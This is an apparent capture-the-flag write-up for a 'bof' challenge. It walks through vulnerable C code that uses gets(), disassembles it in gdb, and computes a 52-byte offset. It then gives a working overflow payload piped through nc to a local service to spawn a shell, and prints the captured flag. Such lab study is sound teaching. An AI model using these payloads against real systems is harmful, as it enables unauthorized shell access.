

# 3 - bof

## Walkthrough
We first run `ls -la` to see which files exist in our machine:
```bash
total 44
drwxr-x---   2 root bof   4096 Apr  3 16:04 .
drwxr-xr-x 126 root root  4096 Apr  5 10:12 ..
-rw-r--r--   1 root root   220 Feb 14 11:22 .bash_logout
-rw-r--r--   1 root root  3771 Feb 14 11:22 .bashrc
-rwxr-xr-x   1 root bof  15300 Mar 26 13:03 bof
-rw-r--r--   1 root root   342 Mar 26 13:09 bof.c
-rw-r--r--   1 root root   811 Apr  3 16:04 .profile
-rw-r--r--   1 root root    86 Apr  3 16:03 readme
```

There isn't a `flag` file, but there is a `readme` file:
```bash
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
```

Let's try to look at port `9000`:
```bash
bof@ubuntu:~$ netstat -l -n -p | grep 9000
(No info could be read for "-p": geteuid()=1003 but you should be root.)
tcp        0      0 0.0.0.0:9000            0.0.0.0:*               LISTEN      -
bof@ubuntu:~$
```

We can't see the process which listens on this port, but it is not important.

We then turn to the `bof.c` file and its corresponding compiled binary file `bof`:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                setregid(getegid(), getegid());
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
In order for a shell to be executed (`system("/bin/sh")`) we need to pass the `if` statement, which mean we need `key` to be `0xcafebabe`. The problem the function is always called with a fixed argument `func(0xdeadbeef)`, which means we can't control it using an ordinary input.

We have no choice but to change the `key` argument to be equal to `0xcafebabe` in order to execute the shell.

The way to do it is strongly hinted - We need to overflow the `overflowme` buffer in order to change the value of `key` from `0xdeadbeef` to `0xcafebabe`. The vulnerability works because the stack "grows" down, so by supplying more bytes than the buffer can hold, we can effectively overwrite the local variables, return address and arguments of the function.
We can do it by using the vulnerability of `gets(3)`, which has the signature `char *gets(char *s);`, and according to its man page:
```bash
       gets()  reads  a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').  No check for buffer overrun is
       performed (see BUGS below).
```
So it means we should write to the binary's stdin bytes that would change the `key`, taking advantage of the overflow of the buffer.

This is where we turn to read the assembly code of `bof` binary, which we do using `gdb`:
```bash
gdb ./bof
```

More specifically, we would like to read the assembly code of the function `func`:
```assembly
pwndbg> disassemble func
Dump of assembler code for function func:
   0x000011fd <+0>:     push   ebp
   0x000011fe <+1>:     mov    ebp,esp
   0x00001200 <+3>:     push   esi
   0x00001201 <+4>:     push   ebx
   0x00001202 <+5>:     sub    esp,0x30
   0x00001205 <+8>:     call   0x1100 <__x86.get_pc_thunk.bx>
   0x0000120a <+13>:    add    ebx,0x2df6
   0x00001210 <+19>:    mov    eax,gs:0x14
   0x00001216 <+25>:    mov    DWORD PTR [ebp-0xc],eax
   0x00001219 <+28>:    xor    eax,eax
   0x0000121b <+30>:    sub    esp,0xc
   0x0000121e <+33>:    lea    eax,[ebx-0x1ff8]
   0x00001224 <+39>:    push   eax
   0x00001225 <+40>:    call   0x1050 <printf@plt>
   0x0000122a <+45>:    add    esp,0x10
   0x0000122d <+48>:    sub    esp,0xc
   0x00001230 <+51>:    lea    eax,[ebp-0x2c]
   0x00001233 <+54>:    push   eax
   0x00001234 <+55>:    call   0x1060 <gets@plt>
   0x00001239 <+60>:    add    esp,0x10
   0x0000123c <+63>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x00001243 <+70>:    jne    0x1272 <func+117>
   0x00001245 <+72>:    call   0x1080 <getegid@plt>
   0x0000124a <+77>:    mov    esi,eax
   0x0000124c <+79>:    call   0x1080 <getegid@plt>
   0x00001251 <+84>:    sub    esp,0x8
   0x00001254 <+87>:    push   esi
   0x00001255 <+88>:    push   eax
   0x00001256 <+89>:    call   0x10b0 <setregid@plt>
   0x0000125b <+94>:    add    esp,0x10
   0x0000125e <+97>:    sub    esp,0xc
   0x00001261 <+100>:   lea    eax,[ebx-0x1fe9]
   0x00001267 <+106>:   push   eax
   0x00001268 <+107>:   call   0x10a0 <system@plt>
   0x0000126d <+112>:   add    esp,0x10
   0x00001270 <+115>:   jmp    0x1284 <func+135>
   0x00001272 <+117>:   sub    esp,0xc
   0x00001275 <+120>:   lea    eax,[ebx-0x1fe1]
   0x0000127b <+126>:   push   eax
   0x0000127c <+127>:   call   0x1090 <puts@plt>
   0x00001281 <+132>:   add    esp,0x10
   0x00001284 <+135>:   nop
   0x00001285 <+136>:   mov    eax,DWORD PTR [ebp-0xc]
   0x00001288 <+139>:   sub    eax,DWORD PTR gs:0x14
   0x0000128f <+146>:   je     0x1296 <func+153>
   0x00001291 <+148>:   call   0x12e0 <__stack_chk_fail_local>
   0x00001296 <+153>:   lea    esp,[ebp-0x8]
   0x00001299 <+156>:   pop    ebx
   0x0000129a <+157>:   pop    esi
   0x0000129b <+158>:   pop    ebp
   0x0000129c <+159>:   ret
End of assembler dump.
pwndbg>
```
We can see that the `gets(3)` function is called, reading the value at `ebp-0x2c` as the parameter to the `gets(3)` function, which means it is the char pointer, the buffer `overflowme`:
```
   0x00001230 <+51>:    lea    eax,[ebp-0x2c]
   0x00001233 <+54>:    push   eax
   0x00001234 <+55>:    call   0x1060 <gets@plt>```
```


A more detailed view of the stack:



We can see the `overflowme` indeed takes 0x20 bytes (32 bytes) from `ebp-0xc` to  `ebp-0x2c`. Because the key is on `ebp+0x8`, we need to enter an input of length `ebp+0x8 - (ebp-0x2c) = 0x34` which is 52 bytes  just in order to reach the `key`, and then we need to overwrite it, so because is it an `int`, we need 4 more bytes.

So it seems all we need to do is just:

1. Enter an input of 56 bytes which is 52 bytes of any value, and then 4 more bytes of the key.

## Solution
Because we are on little-endian, if we want to write the key `0xcafebabe`, we actually need to write the bytes `\xbe\xba\xfe\xca`.

We will choose 'A' as the 52 bytes before it, so the input is:
`"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca`

* In order for us to interactively send command to the shell, We need to leave the open, which can be achieved by using the `cat` command, which reads `stdin` forever.
* The server which listens on port 9000 ignores the first command we send, maybe because it expects something else. So we can just run a simple command to be digested, like `echo`.


```bash
bof@ubuntu:~$ (echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca"; echo; cat) | nc 0 9000
ls -la
total 148
drwxr-x---   2 root bof_pwn  4096 Apr  3 16:06 .
drwxr-xr-x 126 root root     4096 Apr  5 10:12 ..
-rw-r--r--   1 root bof_pwn   220 Apr  3 15:48 .bash_logout
-rw-r--r--   1 root bof_pwn  3771 Apr  3 15:48 .bashrc
-rwxr-xr-x   1 root root    15300 Apr  3 15:55 bof
-rw-r--r--   1 root root      372 Apr  3 15:54 bof.c
-r--r-----   1 root bof_pwn    29 Apr  3 15:46 flag
----------   1 root root      124 Apr  3 15:55 .gdb_history
-rw-r--r--   1 root root    90957 Apr 18 10:23 log
-rw-r--r--   1 root bof_pwn   807 Apr  3 15:48 .profile
-rwx------   1 root root      768 Apr  3 16:06 super.pl
cat flag
Daddy_I_just_pwned_a_buff3r!
```

* We can only use `(python -c "import sys; sys.stdout.buffer.write(b'A'*52 + b'\xbe\xba\xfe\xca')"; echo; cat) | nc 0 9000 ` for the same goal
* NOTE: We overwrite the canary value, which would crash the program after the `system(3)` function returns (can be achieved by running `exit(1)` from the opened shell). But for our purpose, it is sufficient to just read the `flag`